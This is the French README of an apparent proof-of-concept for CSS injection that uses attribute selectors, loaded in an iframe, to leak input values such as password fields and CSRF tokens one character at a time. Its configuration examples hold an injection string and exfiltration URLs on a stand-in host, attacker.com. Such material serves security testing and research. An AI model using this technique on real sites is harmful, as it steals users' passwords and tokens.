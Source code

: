 # PoC - CSS Injection : Sélecteur d'attributs

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC d'exploitation d'une injection CSS en utilisant les sélecteurs d'attributs afin de récupérer la valeur d'un attribut d'un élément HTML.

## Prérequis

- Le site vulnérable doit pouvoir être iframé, voir entêtes HTTP `X-Frame-Options` et `frame-ancestors`.
- Il existe certaines limites lorsque la valeur à récupérer commence par un chiffre. La valeur de sélection doit alors être entourée par de guillemets simples ou doubles et l'exploitation peut ne pas être possible dans le cas ou ces caractères sont filtrés par l'application.

## Configuration

Avant d'utiliser le PoC, configurer les valeurs suivantes :

```
/* ==== CONFIG ==== */
// URL complète de l'application vulnérable
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  

// URL de la machine de l'attaquant permettant de connaitre les caractères déjà identifiés
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";

// URL de la machine de l'attaquant permettant d'indiquer un nouveau caractère identifié
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";

// Nom de l'élément HTML ciblé
const HTML_ELEMENT_NAME = "input";

// Nom de l'attribut HTML ciblé
const HTML_ATTRIBUTE_NAME = "name";

// Valeur NAME de l'attribut HTML ciblé
const HTML_ATTRIBUTE_VALUE = "password";

// True si le champs ciblé est de type "hidden" (utilisation des combinateurs CSS ~*)
const isHiddenTypeElement = false;

// Lorsque les caractères "'" et """ sont filtrés par l'application il n'est pas possible de récupérer une valeur commençant par un chiffre
const isQuoteFiltered = true;
```

## Utilisation

### Récupération d'une valeur d'un champ de type password

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isHiddenTypeElement = false;
const isQuoteFiltered = true;
```

### Récupération d'une valeur d'un champ de type hidden

```javascript
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isHiddenTypeElement = true;
const isQuoteFiltered = true;
```

## Démo

### Récupération d'une valeur d'un champ de type password



### Récupération d'une valeur d'un champ de type hidden